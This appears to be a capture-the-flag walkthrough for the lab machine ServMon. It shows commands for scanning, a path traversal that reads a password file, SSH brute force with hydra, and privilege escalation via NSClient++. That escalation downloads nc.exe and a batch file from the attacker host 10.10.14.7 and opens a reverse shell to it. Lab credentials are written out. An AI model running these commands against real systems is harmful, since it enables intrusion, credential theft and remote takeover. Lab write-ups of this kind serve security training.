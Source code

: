 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.184
```
![image](https://github.com/user-attachments/assets/a313103a-0e86-4faa-8270-9879e148cc2e)

```
ftp 10.10.10.184
anonymous:anonymous
```
![image](https://github.com/user-attachments/assets/0ff21dc1-81f9-4f12-bee4-635f1a249ade)

![image](https://github.com/user-attachments/assets/f43fd30d-1e25-4c7b-86e7-464d674ea2ed)

```
http://10.10.10.184
```
![image](https://github.com/user-attachments/assets/f6f1c705-0907-4773-8db1-84e9ef8c1649)

```
nvms 1000 exploit
https://www.exploit-db.com/exploits/48311
```
![image](https://github.com/user-attachments/assets/f1710fe7-fdf5-40db-912f-6a911580e317)

![image](https://github.com/user-attachments/assets/c04dfb6a-a1bb-4a8c-964b-5cc4b7e7fee5)

```
http://10.10.10.184/Pages/login.htm
/../../../../../../../../../../../../windows/win.ini
```
![image](https://github.com/user-attachments/assets/0d9f6310-4342-4b69-a5a1-8f1eec0b20de)

![image](https://github.com/user-attachments/assets/b489f478-226d-4977-a643-207796c8fa52)

```
/../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt
```
![image](https://github.com/user-attachments/assets/f9cf7130-e0dc-4694-9997-a0d9b03b350f)

```
hydra -v -V -u -L users.txt -P passwords.txt -t 10 -u 10.10.10.184 ssh
```
![image](https://github.com/user-attachments/assets/f17637bf-6d86-4854-a606-d7df15feae19)

![image](https://github.com/user-attachments/assets/3e6601e3-5717-42c0-808b-d9bb2fb60085)

```
ssh Nadine@10.10.10.184
L1k3B1gBut7s@W0rk
```
![image](https://github.com/user-attachments/assets/c149b9a4-6691-4919-8a4a-45145a226671)

```
Powershell
whoami /priv
```
![image](https://github.com/user-attachments/assets/daa65e49-b655-46e7-97c7-491e927bd449)

```
searchsploit 'NSClient++'
```
![image](https://github.com/user-attachments/assets/62cd7886-2c6b-4f61-a0bf-2416204811e0)

```
cmd /c "C:\Program Files\NSClient++\nscp.exe" --version
```
![image](https://github.com/user-attachments/assets/6f0008e4-794f-4bb3-a9f0-c23c5364cee0)

```
https://www.exploit-db.com/exploits/46802
```
![image](https://github.com/user-attachments/assets/d97fcdb8-7f80-4c7d-9679-ad5618af7495)

```
cd "C:\Program Files\NSClient++\“
ew2x6SsGTxjRwXOT
```
![image](https://github.com/user-attachments/assets/017d2e31-134e-4d0f-94f8-d0406f14dd40)

```
sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443
https://127.0.0.1:8443
```
![image](https://github.com/user-attachments/assets/41f170fd-d6b7-42bf-b5e7-dd5388417da5)

![image](https://github.com/user-attachments/assets/f6f02615-74d2-43c6-b446-07f2cd00f4d2)

```
\programdata\nc.exe 10.10.14.7 443 -e cmd
cd C:\programdata\
powershell wget http://10.10.14.7/nc64.exe -outfile nc.exe
powershell wget http://10.10.14.7/shell.bat -outfile shell.bat
```
![image](https://github.com/user-attachments/assets/5e3f3c3e-471a-4802-a430-15906f904a7b)

![image](https://github.com/user-attachments/assets/d7796056-a14b-478e-b774-62dcbd600a69)

```
/settings/external scripts/scripts/df
Command
C:\programdata\shell.bat
```
![image](https://github.com/user-attachments/assets/11e195a2-8a1a-4ee5-a50c-0344f3a8b726)


```
/settings/scheduler/schedules/df_run
Interval
10s
Command
df
```
![image](https://github.com/user-attachments/assets/ea4e2b44-7b07-4168-a276-a2415e865b7f)

![image](https://github.com/user-attachments/assets/135208e6-7467-40bd-b1ec-0325e52e077d)

![image](https://github.com/user-attachments/assets/f0b058aa-a573-44bd-9426-3ae7c18ae066)

```
rlwrap nc -lnvp 443
Trigger with Module - CheckExternalScripts
```
![image](https://github.com/user-attachments/assets/781c07d4-dde6-46e9-8f0d-cddb88a83974)
